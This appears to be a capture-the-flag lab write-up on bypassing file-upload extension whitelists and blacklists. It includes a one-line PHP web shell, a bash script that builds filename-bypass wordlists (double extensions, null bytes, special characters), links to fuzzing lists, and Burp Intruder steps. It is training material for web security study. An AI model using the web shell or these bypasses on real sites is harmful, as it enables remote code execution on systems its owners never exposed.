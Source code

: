 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions.
Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

`Hint`: You may use either of the last two techniques. If one extension is blocked, try another one that can execute PHP code.

---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- PHP shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- Fuzzing extension whitelist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
(Used to discover possible whitelisted extensions. It could be useful to add common image extensions).
- Fuzzing extension list: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

We attempted to subbmit a simple php script with a test payload:
![image](https://github.com/user-attachments/assets/4b62872a-8a53-4aac-9036-b926dc29415f)
![image](https://github.com/user-attachments/assets/f7bb5a8e-dba6-40ea-a7fb-c57bbb2b6794)

We notice we have differente message responses depending either the response is from the whitelist or blacklist.

We attempted to subbmit a php script using `Double Extensions`:
![image](https://github.com/user-attachments/assets/8e7ab974-0a12-4f57-a81a-db475e750feb)

We attempted to subbmit a php script using a `Reverse Double Extension`:
![image](https://github.com/user-attachments/assets/5d3f324d-9e0e-4878-bd7a-287f780761c0)

We also attempted:
![image](https://github.com/user-attachments/assets/35526498-6f80-4f59-a5c0-771c6e74ef93)
![image](https://github.com/user-attachments/assets/95bad4f1-b219-43ba-a443-a6adee0fd057)
![image](https://github.com/user-attachments/assets/f69b6ed7-1468-47c2-bb00-77c6168d40d2)


We tried to submit a php script with null bytes:
![image](https://github.com/user-attachments/assets/977014b2-3f26-4001-a57b-dd64e0114667)

We perform a common extension fuzzing with `Burp Suite Intruder` in order to know the extensions whitelisted:
![image](https://github.com/user-attachments/assets/05fb203f-bed3-498d-a3b9-4ae4ef6b6489)
all of this extensios are not allowed.
![image](https://github.com/user-attachments/assets/933acd67-c3b5-4b8d-9f50-77387ddfb498)
We realized that we receive the response `Only images are allowed` when the server response using the whitelist and `Extension not allowed` if the server is using the blacklist.


We performed a extension fuzzing using `Burp Suite Intruder`:
![image](https://github.com/user-attachments/assets/e3d26584-e313-4a44-870c-54af813e562e)

![image](https://github.com/user-attachments/assets/78f9a8d2-ed7e-478d-a687-e36d024344b5)

Also we can create a custom wordlist with the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.png" >> wordlist.txt
        echo "shell$ext$char.png" >> wordlist.txt
        echo "shell.png$char$ext" >> wordlist.txt
        echo "shell.png$ext$char" >> wordlist.txt
    done
done
```
Then we perform a fuzzing using this list created:
![image](https://github.com/user-attachments/assets/30ece0ba-f8e2-4e18-b28c-143a0f3ed912)

![image](https://github.com/user-attachments/assets/644c8c1c-408e-469c-980c-1ea8f0fdbc5c)

We tried to get de file submitted by using `Intruder`:
![image](https://github.com/user-attachments/assets/4c7cb8da-31a8-4972-9e68-b2d9770b37e3)
![image](https://github.com/user-attachments/assets/ce8a7da6-cd4b-4bfb-b36c-c2194bb5ca4f)

Using repetear we submitted a simple php web shell:
![image](https://github.com/user-attachments/assets/d3a77070-151a-4839-836a-5230b96933d9)
![image](https://github.com/user-attachments/assets/412f206a-e218-47c5-9b56-e536aeb732ee)

We get the flag and solve the lab:
![image](https://github.com/user-attachments/assets/887787b8-5edc-4add-9a55-fcded8f777b3)















